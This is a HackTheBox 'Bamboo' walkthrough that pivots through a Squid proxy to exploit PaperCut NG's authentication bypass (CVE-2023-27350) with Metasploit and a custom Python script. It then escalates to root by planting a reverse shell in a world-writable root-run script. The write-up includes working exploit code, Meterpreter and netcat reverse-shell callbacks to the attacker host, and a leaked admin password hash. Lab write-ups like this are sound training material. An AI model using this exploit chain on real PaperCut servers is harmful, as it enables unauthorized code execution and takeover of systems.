

# Bamboo - HackTheBox Walkthrough

**Difficulty:** Medium  
**OS:** Linux

## Recon

Doing a port scan, we can see only two ports open `ssh` and `squid proxy`

```
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/bamboo]
└─$ nmap -sC -sV 10.129.54.74
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-21 22:05 +0330
Stats: 0:00:50 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.65% done; ETC: 22:06 (0:00:00 remaining)
Nmap scan report for 10.129.54.74
Host is up (0.28s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 83:b2:62:7d:9c:9c:1d:1c:43:8c:e3:e3:6a:49:f0:a7 (ECDSA)
|_  256 cf:48:f5:f0:a6:c1:f5:cb:f8:65:18:95:43:b4:e7:e4 (ED25519)
3128/tcp open  http-proxy Squid http proxy 5.9
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/5.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

we can use `squid proxy` to scan internal network. in order to perform the scan we can use `proxychains`  
lets edit the proxychains configuration and add the proxy

```
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/bamboo]
└─$ sudo vim /etc/proxychains.conf
...
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"

http 10.129.54.74 3128
```

for me, scanning was super slow so ,I did the nmap scan using pwnbox and it was so much faster.  
and for the result we can see more ports open where they were not reachable.

```
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/bamboo]
└─$ sudo proxychains nmap -sT -n -p- -sC -sV 10.129.54.74
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-21 13:53 CDT
Nmap scan report for 10.129.54.74
Host is up (0.017s latency).
Not shown: 9992 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 83:b2:62:7d:9c:9c:1d:1c:43:8c:e3:e3:6a:49:f0:a7 (ECDSA)
|_  256 cf:48:f5:f0:a6:c1:f5:cb:f8:65:18:95:43:b4:e7:e4 (ED25519)
3128/tcp open  http-proxy   Squid http proxy 5.9
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/5.9
9173/tcp open  http         Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
9174/tcp open  ssl/http     Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-title: Site doesn't have a title.
|_Requested resource was /admin/
| ssl-cert: Subject: organizationName=PaperCut Software International Pty Ltd./stateOrProvinceName=VIC/countryName=AU
| Not valid before: 2023-05-26T13:10:12
|_Not valid after:  2033-05-26T13:10:12
9191/tcp open  sun-as-jpda?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP:
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest, HTTPOptions:
|     HTTP/1.1 302 Found
|     Date: Tue, 21 Oct 2025 18:55:53 GMT
|     Location: http://10.129.54.74:9191/user
|   Help:
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   RPCCheck:
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest:
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   SSLSessionReq:
|     HTTP/1.1 400 Illegal character CNTL=0x16
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 70
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
|   TerminalServerCookie:
|     HTTP/1.1 400 Illegal character CNTL=0x3
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x3</pre>
9192/tcp open  ssl/unknown
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=bamboo/organizationName=unknown/stateOrProvinceName=unknown/countryName=unknown
| Not valid before: 2023-05-25T13:09:59
|_Not valid after:  2038-01-18T03:14:07
9193/tcp open  unknown
9195/tcp open  ssl/unknown
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=bamboo/organizationName=unknown/stateOrProvinceName=unknown/countryName=unknown
| Subject Alternative Name: DNS:bamboo
| Not valid before: 2023-05-25T13:10:17
|_Not valid after:  2030-05-26T13:10:17
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

we can use `foxyproxy` to proxy our requests when using browser



looking at the port `9191` **PaperCut** with version **22.0** is running


## Foothold

### CVE-2023-27350

### explanation from cvedetails:

This vulnerability allows remote attackers to bypass authentication on affected installations of PaperCut NG 22.0.5 (
Build 63914).  
Authentication is not required to exploit this vulnerability. The specific flaw exists within the SetupCompleted class.
The issue results from improper access control. An attacker can leverage this vulnerability to bypass authentication and
execute arbitrary code in the context of SYSTEM. Was ZDI-CAN-18987.

metasploit module exist for this vulnerability that makes exploitation so much easier. however this module cannot update
`print-and-device.script.enabled`  
so we are going to do that manually.

`use multi/http/papercut_ng_auth_bypass`

```
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set proxies http:10.129.54.74:3128
proxies => http:10.129.54.74:3128
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set lhost 10.10.15.52
lhost => 10.10.15.52
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set lport 4444
lport => 4444
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/http/papercut_ng_auth_bypass) > run
[-] Exploit failed: RuntimeError TCP connect-back payloads cannot be used with Proxies. Use 'set ReverseAllowProxy true' to override this behaviour.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set reverseallowproxy true
reverseallowproxy => true
msf6 exploit(multi/http/papercut_ng_auth_bypass) > run
[*] Started reverse TCP handler on 10.10.15.52:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[-] Exploit aborted due to failure: not-vulnerable: Could not update server config option 'print-and-device.script.enabled' to value of 'Y'
[*] Exploit completed, but no session was created.

```

I modified one of the public exploit available to just update `print-and-device.script.enabled`

```
import argparse
import requests


def get_session_id(proxy):
    proxy = {"http": proxy}
    s = requests.Session()
    s.proxies.update(proxy)
    r = s.get(f'http://localhost:9191/app?service=page/SetupCompleted', verify=False)

    headers = {'Origin': f'http://localhost:9191'}
    data = {
        'service': 'direct/1/SetupCompleted/$Form',
        'sp': 'S0',
        'Form0': '$Hidden,analyticsEnabled,$Submit',
        '$Hidden': 'true',
        '$Submit': 'Login'
    }
    r = s.post(f'http://localhost:9191/app', data=data, headers=headers, verify=False)
    if r.status_code == 200 and b'papercut' in r.content and 'JSESSIONID' in r.headers.get('Set-Cookie', ''):
        print(f'[*] Papercut instance is vulnerable! Obtained valid JSESSIONID')
        return s
    else:
        print(f'[-] Failed to get valid response, likely not vulnerable')
        return None


def set_setting(session, setting, enabled):
    print(f'[*] Updating {setting} to {enabled}')
    headers = {'Origin': f'http://localhost:9191'}
    data = {
        'service': 'direct/1/ConfigEditor/quickFindForm',
        'sp': 'S0',
        'Form0': '$TextField,doQuickFind,clear',
        '$TextField': setting,
        'doQuickFind': 'Go'
    }
    r = session.post(f'http://localhost:9191/app', data=data, headers=headers, verify=False)

    data = {
        'service': 'direct/1/ConfigEditor/$Form',
        'sp': 'S1',
        'Form1': '$TextField$0,$Submit,$Submit$0',
        '$TextField$0': enabled,
        '$Submit': 'Update'
    }
    r = session.post(f'http://localhost:9191/app', data=data, headers=headers, verify=False)


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-p', '--proxy', help='squid proxy address example: http://10.10.10.10:3128', required=True)
    args = parser.parse_args()

    sess = get_session_id(args.proxy)
    if sess:
        set_setting(sess, setting='print-and-device.script.enabled', enabled='Y')
```

```
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/bamboo]
└─$ python update_config.py -p http://10.129.54.74:3128
[*] Papercut instance is vulnerable! Obtained valid JSESSIONID
[*] Updating print-and-device.script.enabled to Y
```

after that you can run the metasploit module again and get a shell  
you can also read **user.txt** in `/home/papercut`

```
msf6 exploit(multi/http/papercut_ng_auth_bypass) > run
[*] Started reverse TCP handler on 10.10.15.52:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Using URL: http://10.10.15.52:8080/H3W8n3qsVn
[*] Server started.
[*] Sending stage (58073 bytes) to 10.129.54.74
[*] Meterpreter session 1 opened (10.10.15.52:4444 -> 10.129.54.74:59512) at 2025-10-21 23:07:07 +0330
[*] Server stopped.

meterpreter > ls /home/papercut
Listing: /home/papercut
=======================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
000667/rw-rw-rwx  0       fif   2025-10-21 22:02:56 +0330  .bash_history
100667/rw-rw-rwx  220     fil   2023-05-26 16:35:32 +0330  .bash_logout
100667/rw-rw-rwx  74      fil   2023-05-26 16:39:52 +0330  .bash_profile
100667/rw-rw-rwx  3771    fil   2023-05-26 16:35:32 +0330  .bashrc
100667/rw-rw-rwx  102     fil   2022-09-29 10:45:05 +0330  .install-config
040777/rwxrwxrwx  4096    dir   2023-05-26 16:36:33 +0330  .local
100667/rw-rw-rwx  881     fil   2023-05-26 16:39:52 +0330  .profile
100776/rwxrwxrw-  50569   fil   2022-09-29 10:45:05 +0330  LICENCE.TXT
100776/rwxrwxrw-  1537    fil   2022-09-29 10:45:05 +0330  README-LINUX.TXT
100776/rwxrwxrw-  212715  fil   2022-09-29 10:45:05 +0330  THIRDPARTYLICENSEREADME.TXT
040776/rwxrwxrw-  4096    dir   2023-05-26 17:52:55 +0330  client
040776/rwxrwxrw-  4096    dir   2023-05-26 17:53:06 +0330  docs
040776/rwxrwxrw-  4096    dir   2023-05-26 17:53:05 +0330  providers
040776/rwxrwxrw-  4096    dir   2023-05-26 17:53:06 +0330  release
040776/rwxrwxrw-  4096    dir   2023-05-26 17:52:54 +0330  runtime
040776/rwxrwxrw-  4096    dir   2023-05-26 17:53:06 +0330  server
100776/rwxrwxrw-  3099    fil   2022-09-29 10:45:05 +0330  uninstall
100444/r--r--r--  33      fil   2025-10-21 22:03:50 +0330  user.txt

```

## Privilege escalation

looking at the processes from linpeas output, we can see `print-deploy` functionality is being run by root  
which is one of the papercut's functions

```
...
root         510  0.0  0.2   9872  5248 ?        Ssl  18:33   0:00 /home/papercut/providers/print-deploy/linux-x64/pc-print-deploy
root         561  0.0  0.8 1386528 16996 ?       Sl   18:33   0:01  _ v2023-02-14-1341/pc-print-deploy-server -dataDir=/home/papercut/providers/print-deploy/linux-x64//data -pclog.dev
...
```

in order to use these functions we need to access if from the admin panel.  
within `/home/papercut/server` you can get papercut credentials from `server.properties`  
this is where the server will be looking for when you try to login: `http://localhost:9191/user`  
you can either try to crack the hash (which i couldn't) or edit the config file and change the `admin.password`.

```
meterpreter > cat server.properties
######### Server Config Properties #########

#
# IMPORTANT:  Do not change the permissions set on this file.  For security
# reasons, this file should only be accessible by administrators.
#


### Built-in Admin User ###
admin.username=admin
### Admin Password ###
# This may be manually set to a plain text password.
# If set by the application it will be prefixed with HASH:
admin.password=HASH\:$2a$10$I9n7kuIU2a0ODXhCfc3Z4e0h4G69KaFgDdksemRoNGrQf2Hu.4Xvm

```

after you accessed admin panel go to
`Enable Printing > Import BYOD-friendly print queues > Next > Start Importing Mobility Print Printers > Refresh servers`  
before you hit **Refresh servers**, upload `pspy` and monitor for processes being created  
you can see, a shell script is being run by root which we have write access.

```
2025/10/21 21:46:39 CMD: UID=0     PID=84955  | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key

meterpreter > ls /home/papercut/server/bin/linux-x64/server-command
100776/rwxrwxrw-  493  fil  2022-09-29 10:44:26 +0330  /home/papercut/server/bin/linux-x64/server-command

```

add your reverse shell payload to the script file.

```
#!/bin/sh
#
# (c) Copyright 1999-2013 PaperCut Software International Pty Ltd
#
# A wrapper for server-command
#
< ADD YOUR REVERSE SHELL >

. `dirname $0`/.common

export CLASSPATH
${JRE_HOME}/bin/java \
        -Djava.io.tmpdir=${TMP_DIR} \
        -Dserver.home=${SERVER_HOME} \
        -Djava.awt.headless=true \
        -Djava.locale.providers=COMPAT,SPI \
        -Dlog4j.configurationFile=file:${SERVER_HOME}/lib/log4j2-command.properties \
        -Xverify:none \
        biz.papercut.pcng.server.ServerCommand \
        "$@"

```

hit **Refresh server** from the panel to activate your reverse shell

```
┌──(kali㉿kali)-[~/CTF/HackTheBox/rooms/bamboo]
└─$ nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.10.15.52] from (UNKNOWN) [10.129.54.74] 40386
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# ls -la /root
total 52
drwx------  7 root root 4096 Oct 21 18:33 .
drwxr-xr-x 19 root root 4096 Sep 30 16:30 ..
lrwxrwxrwx  1 root root    9 Sep 30 16:30 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 May 28  2023 .cache
drwxr-xr-x  2 root root 4096 May 26  2023 .deploy
-rw-------  1 root root   20 Sep 30 14:21 .lesshst
drwxr-xr-x  3 root root 4096 May 26  2023 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  2 root root 4096 May 26  2023 .ssh
-rw-r--r--  1 root root    0 May 26  2023 .sudo_as_admin_successful
-rw-r--r--  1 root root  165 Sep 30 16:30 .wget-hsts
-rw-r--r--  1 root root  200 Sep 30 14:21 output
-rw-r-----  1 root root   33 Oct 21 18:33 root.txt
drwx------  4 root root 4096 May 26  2023 snap
#

```
